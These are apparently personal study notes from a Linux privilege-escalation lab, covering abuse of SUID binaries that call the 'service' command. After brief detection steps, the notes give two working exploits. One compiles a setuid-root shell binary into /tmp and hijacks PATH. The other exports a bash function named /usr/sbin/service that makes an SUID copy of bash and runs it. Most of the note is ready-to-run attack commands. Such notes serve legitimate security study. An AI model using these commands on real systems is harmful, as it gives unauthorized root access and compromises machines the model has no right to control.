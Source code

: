 # Detection
---
- Find environmental variables using:
	- `env`
	- ![[Pasted image 20250429162802.png]]
- ![[Pasted image 20250429162833.png]]
- `strings /usr/local/bin/suid-env`
	- ![[Pasted image 20250429162957.png]]
- We might be able to **==overwrite the $PATH variable and upload our malicious file or export our bash function with name "service"**==

# Exploitation - 1 (Relative Path Reference)
---
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
- Compile the binary:
	- `gcc /tmp/service.c -o /tmp/service`
	- ![[Pasted image 20250429163428.png]]
- Modify and export the $PATH variable:
	- `export PATH=/tmp:$PATH`
	- ![[Pasted image 20250429163524.png]]
- Run the file:
	- `/usr/local/bin/suid-env`
	- ![[Pasted image 20250429163609.png]] 

# Exploitation - 2 (Absolute Path reference)
---
![[Pasted image 20250429164618.png]]
- Create a function:
	- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- Export the function:
	- `export -f /usr/sbin/service`
- Run:
	- `/usr/local/bin/suid-env2`
- ![[Pasted image 20250429164748.png]]
